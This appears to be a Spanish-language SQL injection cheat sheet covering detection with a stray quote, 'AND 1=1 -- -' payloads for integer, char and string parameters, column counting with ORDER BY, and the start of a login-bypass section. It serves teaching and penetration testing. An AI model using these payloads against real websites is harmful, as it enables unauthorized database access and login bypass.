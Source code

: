 Estructura estandar de prueba:

```sql
SELECT usuario FROM usuarios WHERE usuario='parameter'
```

## Comprobar vulnerabilidad

Añadiendo comillas simples o dobles a la consulta:

Parametro: '

```sql
SELECT usuario FROM usuarios WHERE usuario='''
```

Si sale error es que es vulnerable.

## Tipo del parámetro vulnerable

- INT [ 1 AND 1=1 -- - ]

```sql
SELECT usuario FROM usuarios WHERE usuario=1 AND 1=1 -- -
```

- CHAR [ '1 AND 1=1 -- - ]

```sql
SELECT usuario FROM usuarios WHERE usuario='1' AND 1=1 -- -'
```

- STRING [ "1 AND 1=1 -- - ]

```sql
SELECT usuario FROM usuarios WHERE usuario="1" AND 1=1 -- -"
```

Solo si el parámetro coincide cargará la página.

## Número de columnas a devolver

```sql
SELECT usuario FROM usuarios WHERE usuario='1' AND 1=1 ORDER BY 500 -- -'
```

Si el número de columnas a devolver es menor que el número que ponemos en el ORDER BY, saldrá un error.

## Bypass de un login

Estructura estandar de prueba de la consulta Login:

```sql
SELECT usuario FROM usuarios WHERE usuario = 'admin' AND password = "admin"
```

Si la consulta está vacía no devuelve nada y no permitirá acceso, en caso contrario sí, **dando igual que haya uno o más registros**.
